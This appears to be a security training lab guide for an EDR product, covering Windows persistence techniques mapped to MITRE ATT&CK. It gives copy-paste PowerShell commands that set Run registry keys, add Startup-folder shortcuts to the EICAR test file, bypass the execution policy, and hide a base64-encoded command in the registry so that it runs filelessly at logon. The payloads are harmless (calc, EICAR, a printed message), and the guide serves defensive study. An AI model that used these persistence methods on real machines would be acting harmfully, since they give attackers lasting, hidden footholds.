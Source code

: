 ```yaml
---
Title: ATT&CK - Persistence Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- rightofboom.infocyte.com
- www.eicar.org/download/eicar.com.txt
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

In Lab 5, we will demonstrate some popular places to place malware references that will cause their malware to keep coming back. Autostart locations like Registry Run Keys or files in User Startup Folders will cause that program to execute when a user logs in or the system reboots. Each autostart may have it’s own trigger for automated execution

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Persistence phase of an attack
2. Demonstate some popular persistence methods and locations
   

## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions


For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Registry Run Key Foothold
> *The most popular persistence location is to place a reference to your malware file or command in the registry's Run Keys. All files referenced in a run key will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate how this might look if the malware was not detected as malware by loading up our calculator. After that we'll try reference some malware using an EICAR file (fake malware that will flag on AV)

Add a path reference to the **Registry Run Keys**. 
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Registry Run key with calc.exe
	Write-Host "Adding T1547.001 - Registry Run Key Foothold w/ simulated undetectable malware (calc)"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /t REG_SZ /F /D "C:\Windows\System32\calc.exe -i $n"
	#REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /f
	```

### 2. Autostart Folder Shortcut
> *Another popular persistence location is to simply place a shortcut to the malware in the Windows autostart folder. All files referenced here will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate this by creating a shortcut to an EICAR file (test malware that will flag on all AV engines) and placing it in either the system startup folder or user startup folder:
>
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\*.lnk
> OR
> $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\*.lnk


Add a shortcut to malware in the **Autostart Folder**
- MITRE ATT&CK Technique: [ATT&CK T1547.009 - Persistence - Autostart Folder](https://attack.mitre.org/techniques/T1547/009)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.009 - Malicious Shortcut Link Persistence with detectable malware (EICAR File)"
	Write-Host "Downloading IECAR file..."
	Invoke-WebRequest -Uri "https://www.eicar.org/download/eicar.com.txt" -OutFile "$env:USERPROFILE\EICAR.exe"
	$cmd = @'
		$Target = "$env:USERPROFILE\EICAR.exe"
		$ShortcutLocation = "$home\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
		$ShortcutLocation = "$home\Desktop\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
	'@
	$cmd += "`nStart-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```


### 3. Fileless Runkey Persistence
> *A more advanced form of persistence won't reference a file on disk, it will hide encoded and obfuscated code in the registry somewhere and run the command using the same persistence method.*
>
> *We will demonstrate this by encoding a simple command and placing that content in a random registry location. Then we will have the runkeys start powershell and execute that content. Any scan of the runkeys will just show a powershell command.*


Create a fileless reference in the **Registry Run Keys**
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.001 - Registry Run Key w/ Fileless Powershell Command"
	$Cmd = "Write-Host -ForegroundColor Green 'Mess with the Best, Die like the rest!'; Start-Sleep -m $n"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($Cmd))
	# Add encoded Command to random registry location
	REG ADD "HKEY_CURRENT_USER\Software\Classes\RedTeamTest" /v RT /t REG_SZ /d $EncodedCommand /f
	
	# Add powershell reference to registry run key that will have it grab and execute the encoded command hidden in the registry
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team Fileless" /t REG_SZ /F /D "powershell.exe -nop -command '$cmd'"
	#Remove-Item HKCU:\Software\Classes\RedTeamTest -Force -ErrorAction Ignore
	```

- Go ahead and run the command hidden in the registry now:
	```Powershell
	# Run the command from the registry on demand:
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```
	s> If you are successful, powershell will display a message in red.
